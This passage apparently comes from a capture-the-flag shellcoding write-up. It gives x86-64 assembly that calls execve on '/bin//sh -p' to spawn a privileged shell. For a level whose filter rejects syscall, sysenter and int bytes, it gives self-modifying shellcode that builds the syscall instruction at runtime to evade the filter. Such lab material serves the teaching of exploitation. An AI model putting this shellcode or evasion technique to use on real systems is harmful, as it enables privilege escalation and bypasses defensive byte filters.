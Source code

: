 ```assembly
    push 0x2d006873
    mov dword ptr [rsp+4],0x70
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    //push 0xb
    //pop rsi
    //add rsi, rsp
    push rsp
    add dword ptr [rsp],0xb
    //pop rsi
    //push rsi /* '-p\x00' */
    //push 0x10
    //pop rsi
    //add rsi, rsp
    //push rsi /* 'sh\x00' */
    push rsp
    add dword ptr [rsp],0x10
    //mov rsi, rsp
    push rsp
    pop rsi
    xor edx, edx /* 0 */
    /* call execve() */
    push 0x3b /* 0x3b */
    pop rax
    syscall
```

#### Level 5

> This challenge requires that your shellcode does not have any `syscall`, 'sysenter', or `int` instructions. System calls are too dangerous! This filter works by scanning through the shellcode for the following byte sequences: 0f05(`syscall`), 0f34 (`sysenter`), and 80cd (`int`). One way to evade this is to have your shellcode modify itself to insert the `syscall` instructions at runtime.

```assembly
push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    mov rax, 0x101010101010101
    push rax
    mov rax, 0x101010101010101 ^ 0x702d006873
    xor [rsp], rax
    xor esi, esi
    push rsi
    push 0xb
    pop rsi
    add rsi, rsp
    push rsi
    push 0x10
    pop rsi
    add rsi, rsp
    push rsi
    mov rsi, rsp
    xor edx, edx
    push 0x3b
    pop rax
    push 0x050e
    inc qword ptr [rsp]
    jmp rsp
    nop
```

